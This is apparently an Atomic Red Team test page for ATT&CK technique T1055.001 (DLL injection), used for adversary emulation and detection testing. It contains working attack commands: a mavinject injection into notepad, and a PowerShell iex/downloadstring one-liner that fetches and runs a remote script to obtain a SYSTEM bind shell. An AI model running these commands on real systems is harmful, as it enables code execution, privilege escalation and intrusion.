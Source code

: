 # T1055.001 - Process Injection: Dynamic-link Library Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/001)
<blockquote>

Adversaries may inject dynamic-link libraries (DLLs) into processes in order to evade process-based defenses as well as possibly elevate privileges. DLL injection is a method of executing arbitrary code in the address space of a separate live process.  

DLL injection is commonly performed by writing the path to a DLL in the virtual address space of the target process before loading the DLL by invoking a new thread. The write can be performed with native Windows API calls such as <code>VirtualAllocEx</code> and <code>WriteProcessMemory</code>, then invoked with <code>CreateRemoteThread</code> (which calls the <code>LoadLibrary</code> API responsible for loading the DLL). (Citation: Elastic Process Injection July 2017) 

Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue as well as the additional APIs to invoke execution (since these methods load and execute the files in memory by manually preforming the function of <code>LoadLibrary</code>).(Citation: Elastic HuntingNMemory June 2017)(Citation: Elastic Process Injection July 2017) 

Another variation of this method, often referred to as Module Stomping/Overloading or DLL Hollowing, may be leveraged to conceal injected code within a process. This method involves loading a legitimate DLL into a remote process then manually overwriting the module's <code>AddressOfEntryPoint</code> before starting a new thread in the target process.(Citation: Module Stomping for Shellcode Injection) This variation allows attackers to hide malicious injected code by potentially backing its execution with a legitimate DLL file on disk.(Citation: Hiding Malicious Code with Module Stomping) 

Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via DLL injection may also evade detection from security products since the execution is masked under a legitimate process. 

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Injection via mavinject.exe](#atomic-test-1---process-injection-via-mavinjectexe)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique](#atomic-test-2---winpwn---get-system-shell---bind-system-shell-using-usoclient-dll-load-technique)


<br/>

## Atomic Test #1 - Process Injection via mavinject.exe
Windows 10 Utility To Inject DLLS.

Upon successful execution, powershell.exe will download T1055.dll to disk. Powershell will then spawn mavinject.exe to perform process injection in T1055.dll.
With default arguments, expect to see a MessageBox, with notepad's icon in taskbar.

**Supported Platforms:** Windows


**auto_generated_guid:** 74496461-11a1-4982-b439-4d87a550d254





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_id | PID of input_arguments | string | (Start-Process notepad -PassThru).id|
| dll_payload | DLL to Inject | path | PathToAtomicsFolder&#92;T1055.001&#92;src&#92;x64&#92;T1055.001.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$mypid = #{process_id}
mavinject $mypid /INJECTRUNNING "#{dll_payload}"
Stop-Process -processname notepad
```




#### Dependencies:  Run with `powershell`!
##### Description: Utility to inject must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique
Get SYSTEM shell - Bind System Shell using UsoClient DLL load technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 8b56f787-73d9-4f1d-87e8-d07e89cbc7f5






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/UsoDLL/Get-UsoClientDLLSystem.ps1')
```






<br/>
